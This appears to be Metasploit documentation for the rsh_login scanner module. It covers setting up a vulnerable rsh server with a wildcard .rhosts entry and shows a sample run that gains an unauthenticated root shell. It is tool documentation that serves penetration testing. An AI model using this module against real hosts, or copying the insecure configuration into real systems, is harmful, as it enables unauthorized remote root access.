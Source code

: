 ## Vulnerable Application

The R Services (rexecd, rlogind, and rshd) are a suite of unencrypted remote command/login services developed in the 1980s.
These services are all but unused in modern computing, as they have been replace by telnet and ssh.

`rsh` relies on host names as a security mechanism.  Utilizing `+` can wildcard so any computer can connect.  In the following
config, we'll utilize that wildcarded setting to simplify our exploitation.  **This is a glaring security issue!!!**
However, there are exceptions to this in proprietary Unix systems which may include other mechanisms such as Kerberos
([AIX](https://www.ibm.com/support/knowledgecenter/en/ssw_aix_71/com.ibm.aix.cmds4/rsh.htm))

If you encounter `Host address mismatch for `..., you may need to adjust your `/etc/hosts` file accordingly.

The following was done on Kali linux:

  1. `apt-get install rsh-server` which includes: `rexecd`, `rlogind` and `rshd`.
  2. ```echo "+" > ~/.rhosts```
  3. Start the service: `service openbsd-inetd start`

## Verification Steps

  1. Install and configure rexec
  2. Start msfconsole
  3. Do: `use auxiliary/scanner/rservices/rsh_login`
  4. Do: `set rhosts`
  5. Set any other credentials that will need to be set
  6. Do: `run`

## Scenarios

  A run against the configuration from these docs

  ```
    msf > use auxiliary/scanner/rservices/rsh_login
    msf auxiliary(rsh_login) > set rhosts 10.1.2.3
    rhosts => 10.1.2.3
    msf auxiliary(rsh_login) > set username root
    username => root
    msf auxiliary(rsh_login) > run

    [*] 10.1.2.3:514     - 10.1.2.3:514 - Starting rsh sweep
    [*] 10.1.2.3:514     - 10.1.2.3:514 - Attempting rsh with username 'root' from 'root'
    [+] 10.1.2.3:514     - 10.1.2.3:514, rsh 'root' from 'root' with no password.
    [!] 10.1.2.3:514     - *** auxiliary/scanner/rservices/rsh_login is still calling the deprecated report_auth_info method! This needs to be updated!
    [!] 10.1.2.3:514     - *** For detailed information about LoginScanners and the Credentials objects see:
    [!] 10.1.2.3:514     -      https://docs.metasploit.com/docs/development/developing-modules/guides/scanners/creating-metasploit-framework-loginscanners.html
    [!] 10.1.2.3:514     -      https://docs.metasploit.com/docs/development/developing-modules/guides/scanners/how-to-write-a-http-loginscanner-module.html
    [!] 10.1.2.3:514     - *** For examples of modules converted to just report credentials without report_auth_info, see:
    [!] 10.1.2.3:514     -      https://github.com/rapid7/metasploit-framework/pull/5376
    [!] 10.1.2.3:514     -      https://github.com/rapid7/metasploit-framework/pull/5377
    [*] Command shell session 1 opened (10.1.2.3:1023 -> 10.1.2.3:514) at 2017-05-11 19:56:46 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

## Confirming

At the time of writing this, there was no `nmap` script equivalent.  Most modern systems have also replaced `rsh` with `ssh`.
